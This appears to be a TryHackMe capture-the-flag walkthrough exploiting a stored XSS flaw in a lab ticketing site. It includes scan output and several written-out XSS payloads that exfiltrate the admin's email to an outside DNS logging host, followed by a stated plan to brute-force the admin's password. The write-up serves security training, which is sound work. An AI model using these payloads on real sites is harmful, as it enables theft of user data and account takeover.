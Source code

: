 # Walk through: That's the ticket!

![](./assets/thmpage.png)


https://tryhackme.com/room/thatstheticket


IP: 10.10.28.159

## Nmap 

```bash
nmap -p- -v 10.10.28.159
```

```bash
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

## Nikto 

```bash
nikto -h 10.10.28.159
```

```bash
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.28.159
+ Target Hostname:    10.10.28.159
+ Target Port:        80
+ Start Time:         2021-06-09 20:45:01 (GMT1)
---------------------------------------------------------------------------
+ Server: nginx/1.14.0 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ OSVDB-3092: /login/: This might be interesting...
+ OSVDB-3092: /register/: This might be interesting...
+ 7889 requests: 0 error(s) and 5 item(s) reported on remote host
+ End Time:           2021-06-09 20:48:15 (GMT1) (194 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```


## Webpage

![](./assets/main.png)

1. Click register to register up a new account 

![](./assets/register.png)

2. After logging in we see the dashboard.

![](./assets/dashboard.png)

3. Cheking the webpage we see the message box is vunerable to XSS injection

![](./assets/createticket.png)

```js
</textarea><script>alert(1)</script>
```

#Room hint from tryhackme page
```markdown
Hint: Our HTTP & DNS Logging tool on http://10.10.10.100 may come in useful!
```

## Dns time

Using the found xss bug we can use this to make callbacks to our machine and from the hint we got earlier. 
http://10.10.10.100 This is a DNS service that logs dns calls for us. We can also use a site like this, http://pingb.in/

Knowing we can use xss lets try a call back to the dns service. 

![](/assets/test.png)

```js
</textarea><img/src=x onerror"//8ba7c46d7ea59d575b71ef3126651b6a.log.tryhackme.tech/"/>
```

This gets the call back four times, 3 from us and once from the server (admin is looking)

![](./assets/recievedadmin.png)

Now lets try to get some data back! 
New payload

```js
</textarea><script>var i = new Image(); i.src="//8ba7c46d7ea59d575b71ef3126651b6a.log.tryhackme.tech/?c="+document.getElementById('email').innerHTML; </script>
```

But this was not working, data was not coming back from the server.
After a little while, I decided to try a subdomain. 

```js
</textarea><script>var i = new Image(); i.src="//TEST.8ba7c46d7ea59d575b71ef3126651b6a.log.tryhackme.tech/?c="+document.getElementById('email').innerHTML; </script>
```

This came back! 

pic

Now we can get the admins email address, but we will have to swap a few charaters to not break the url to the dns service (escaping chars like @.')

```js
</textarea><script>
var email = document.getElementById("email").innerText;
email = email.replace("@", "8")
email = email.replace(".", "0")
document.location = "http://"+ email +".8ba7c46d7ea59d575b71ef3126651b6a.log.tryhackme.tech"</script>
```
Press Create ticket and check the results on the service http://10.10.10.100

pic

We see the admin email and ours!

Now we can brute force the login page for the admins password as we have his email now.

pic




